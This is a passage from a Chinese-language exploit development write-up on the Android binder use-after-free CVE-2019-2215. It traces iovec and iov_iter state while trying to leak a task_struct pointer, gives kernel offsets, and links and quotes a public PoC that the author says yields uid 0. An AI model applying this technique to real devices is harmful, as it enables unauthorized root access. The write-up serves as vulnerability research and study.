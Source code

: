 在复制完第一个 page 后卡住触发漏洞，在刚触发完漏洞时，各结构体状态为：

```c
bio.iovs[9].iov_base  = dummy_page;
bio.iovs[9].iov_len   = 0x20002;
bio.iovs[10].iov_base = &binder_thread->wait.head;
bio.iovs[10].iov_len  = &binder_thread->wait.head;

struct iov_iter {
	size_t iov_offset; // 0x1000
	size_t count; // 0x20002
    const struct iovec *iov; // &bio.iovs[9]
};
```

继续读取至 0x20000 字节处，此时状态为：

```c
struct iov_iter {
	size_t iov_offset; // 0x20000
	size_t count; // 0x1002
    const struct iovec *iov; // &bio.iovs[9]
};
```

再执行读取一个 page，前两个字节还在 `bio.iovs[9]` 中读取，然后进入 `copy_page_from_iter_iovec()` 的 `while(unlikely)` 循环，进入下个 iovec（终于！）：

```c
bio.iovs[9].iov_base  = dummy_page;
bio.iovs[9].iov_len   = 0x20002;                  // 读完了，已经跳过去了，没用了
bio.iovs[10].iov_base = &binder_thread->wait.head;
bio.iovs[10].iov_len  = &binder_thread->wait.head;

// 刚开始读第二个 iovec 时
struct iov_iter {
	size_t iov_offset; // 0
	size_t count; // 0x1000
    const struct iovec *iov; // &bio.iovs[10]
};
```

然后就会从 `&binder_thread->wait.head` 读 0x1000 字节了，其中第 0xe8 (`offsetof(binder_thread.task) - offsetof(binder_thread->wait.head) = 0xe8`) 字节开始应该就是 task_struct * 了。

……但是它还是全 0

> 我气死了

#### Round 4

万般无奈之际上谷歌搜我这种 wait 在 0x98 的有没有现成 PoC，真找到[一份](https://repo.or.cz/cve2019-2215-3.18.git/blob/refs/heads/master:/su98.c)（还是从失效的 GitHub 链接搜 repo 主的名称才找到这里来），实测可以取得 uid = 0、gid = 0 的效果。它里面这样写：

```c
// NOTE: we don't cover the task_struct* here; we want to leave it uninitialized
#define BINDER_THREAD_SZ 0x188
#define IOVEC_ARRAY_SZ (BINDER_THREAD_SZ / 16) //25

struct iovec iovec_array[IOVEC_ARRAY_SZ];
```
